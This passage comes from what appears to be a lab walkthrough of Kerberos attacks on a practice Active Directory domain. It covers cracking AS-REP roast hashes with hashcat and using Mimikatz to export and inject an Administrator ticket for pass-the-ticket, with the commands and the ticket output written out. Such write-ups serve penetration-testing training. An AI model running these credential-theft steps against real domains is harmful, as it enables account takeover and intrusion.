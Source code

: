 * name the file after the found username followed by .txt
* Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User…..
* Make sure there are no spaces when saving it to a txt file

The hash type of AS-REP Roasting is Kerberos 5 AS-REP etype 23 (mode 18200 for hashcat):

    hashcat -m 18200 user3.txt Pass.txt
    hashcat -m 18200 admin2.txt Pass.txt

## Pass the ticket

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Mimikatz is and start her up:

    cd Downloads
    dir
    mimikatz.exe

If the following command does not return `output '20' OK`, you do not have the administrator privileges to run mimikatz.
    
    mimikatz # privilege::debug
    output '20' OK

Export all `.kirbi` tickets into the directory that you are currently in:

    mimikatz # sekurlsa::tickets /export

It takes a bit of puzzling to find the Administrator ticket. But I found it:

```text
        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/20/2022 8:34:55 AM ; 9/20/2022 6:34:55 PM ; 9/27/2022 8:34:55 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Client Name  (01) : Administrator ; @ CONTROLLER.LOCAL ( CONTROLLER.LOCAL )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             8d36d5959add7925a6858358c89c110542d58859ed2322ceb064db6f74238534
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi !
```

Cache and impersonate the ticket:

    mimikatz # kerberos::ptt [0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
    
    * File: '[0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi': OK

## Golden/silver ticket attacks

### Dump the sqlservice and Administrator hash
